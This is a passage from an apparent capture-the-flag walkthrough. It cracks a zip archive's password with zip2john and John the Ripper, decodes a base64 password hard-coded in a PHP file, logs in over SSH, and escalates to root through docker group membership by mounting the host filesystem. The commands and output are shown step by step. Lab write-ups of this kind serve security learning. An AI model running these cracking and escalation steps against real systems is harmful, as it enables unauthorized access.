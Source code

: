 ```bash
Archive:  backup.zip
[backup.zip] source_code.php password: 
   skipping: source_code.php         incorrect password
```

I run the zip file through **zip2john**:

`zip2john backup.zip > hash`

And then run the hash through **John the Ripper**:

`john hash --wordlist=rockyou.txt`

```bash
<REDACTED>        (backup.zip/source_code.php)     
```

Afterwards I unzip the file and look at the **source_code.php** file:

```php
if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
```

Running that through a base64 decoder:

`echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d`

```bash
<REDACTED>
```

<br>

## anurodh user

I try and ssh over with the password we just found and am able to login as **anurodh**:

```bash
anurodh@ubuntu:~$ whoami
anurodh
```

Checking `id`:

```bash
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

We have access to the **docker group** so let's see if we can use that to our advantage.

`docker images`

```bash
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              a24bb4013296        23 months ago       5.57MB
hello-world         latest              bf756fb1ae65        2 years ago         13.3kB
```

`docker run -it -v /:/host/ alpine chroot /host/ bash`

```bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@15646baf06c9:/# whoami
root
root@15646baf06c9:/# hostname
15646baf06c9
root@15646baf06c9:/#
```
